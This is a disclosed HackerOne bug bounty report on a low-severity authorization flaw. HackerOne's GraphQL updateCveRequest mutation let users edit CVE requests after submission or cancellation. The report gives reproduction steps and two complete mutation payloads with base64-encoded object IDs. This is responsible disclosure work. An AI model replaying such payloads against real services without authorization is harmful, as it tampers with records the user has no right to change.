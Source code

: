 # Changes to data in a CVE request after draft via GraphQL query

## Report Details
- **Report ID**: 813300
- **URL**: https://hackerone.com/reports/813300
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-03-08T20:42:00.136Z
- **Disclosed**: 2020-05-15T17:23:49.575Z

## Reporter
- **Username**: haxta4ok00
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
## Summary:
Our team has conducted a number of studies (tests) in the field of CVE Request. We found several statuses of such requests
`Awaiting Publication`, `Pending HackerOne approval`, `Cancelled` .

At the time of creating the request , we can change the data. However, we noticed that we can 't change them in other statuses. However, due to incorrect GraphQL authorization settings, we can change these requests through It. 

## Steps To Reproduce:
1) Create real program (not sandbox)
2) Go to the page for creating CVE Request
3) Creating CVE Request

4)After sending the request , we will get the status sent to `Pending HackerOne approval`. In this status, we cannot change the data
For example : our request - `https://hackerone.com/hackerone_h1p_bbp1/cve_requests/1439/edit`

{F741383}

`Z2lkOi8vaGFja2Vyb25lL0N2ZVJlcXVlc3QvMTQzOQ==` - base64_decode() - `gid://hackerone/CveRequest/1439`

To change the data we use GraphQL query via mutation:

`{"query":"mutation Update_cve_request_mutation($input_0:UpdateCveRequestInput!,$first_1:Int!) {updateCveRequest(input:$input_0) {clientMutationId,...F1,...F2}} fragment F0 on CveRequest {id} fragment F1 on UpdateCveRequestPayload {cve_request {id,cve_identifier,state,latest_state_change_reason,auto_submit_on_publicly_disclosing_report,report {title,id,_id,url,created_at,disclosed_at,weakness {name,id},structured_scope {asset_identifier,id}},vulnerability_discovered_at,weakness {name,id},product,product_version,description,references,...F0}} fragment F2 on UpdateCveRequestPayload {was_successful,_errors3exXYb:errors(first:$first_1) {edges {node {field,message,id},cursor},pageInfo {hasNextPage,hasPreviousPage}}}","variables":{"input_0":{"cve_request_id":"Z2lkOi8vaGFja2Vyb25lL0N2ZVJlcXVlc3QvMTQzOQ==","product":"JOBERT","product_version":"JOBERT","report_id":804745,"weakness_name":"Information Disclosure","description":"JOBERT","references":["JOBERT"],"vulnerability_discovered_at":"2020-03-06","auto_submit_on_publicly_disclosing_report":true,"clientMutationId":"0"},"first_1":100}}`

{F741382}


5)If the H1 command cancels it , the request will take the `canceled` status. In this status, we cannot change the data
For example : our request - `https://hackerone.com/hackerone_h1p_bbp1/cve_requests/1438/edit`

{F741381}

`Z2lkOi8vaGFja2Vyb25lL0N2ZVJlcXVlc3QvMTQzOA==` - base64_decode() - `gid://hackerone/CveRequest/1438`

To change the data we use GraphQL query via mutation:

`{"query":"mutation Update_cve_request_mutation($input_0:UpdateCveRequestInput!,$first_1:Int!) {updateCveRequest(input:$input_0) {clientMutationId,...F1,...F2}} fragment F0 on CveRequest {id} fragment F1 on UpdateCveRequestPayload {cve_request {id,cve_identifier,state,latest_state_change_reason,auto_submit_on_publicly_disclosing_report,report {title,id,_id,url,created_at,disclosed_at,weakness {name,id},structured_scope {asset_identifier,id}},vulnerability_discovered_at,weakness {name,id},product,product_version,description,references,...F0}} fragment F2 on UpdateCveRequestPayload {was_successful,_errors3exXYb:errors(first:$first_1) {edges {node {field,message,id},cursor},pageInfo {hasNextPage,hasPreviousPage}}}","variables":{"input_0":{"cve_request_id":"Z2lkOi8vaGFja2Vyb25lL0N2ZVJlcXVlc3QvMTQzOA==","product":"JOBERT","product_version":"JOBERT","report_id":804745,"weakness_name":"Information Disclosure","description":"JOBERT","references":["JOBERT"],"vulnerability_discovered_at":"2020-03-06","auto_submit_on_publicly_disclosing_report":false,"clientMutationId":"0"},"first_1":100}}`

{F741380}

We also believe that this can happen after confirmation by the H1 command , when the CVE request takes the status of `HackerOne Approved`. We can 't verify this because Jobert said that there is no way to confirm this status for the test.

There is only one way left . This will ask You to look directly in the code itself .rb file where this mutation is registered. And if you do this check, we'd like to know if we were right about this or not.

Thanks , @haxta4ok00 !

## Impact

Changes to data in a CVE request after draft

## Attachments
- 1438_CVE_after.png
- 1438_CVE_before.png
- 1439_CVE_after.png
- 1439_CVE_before.png
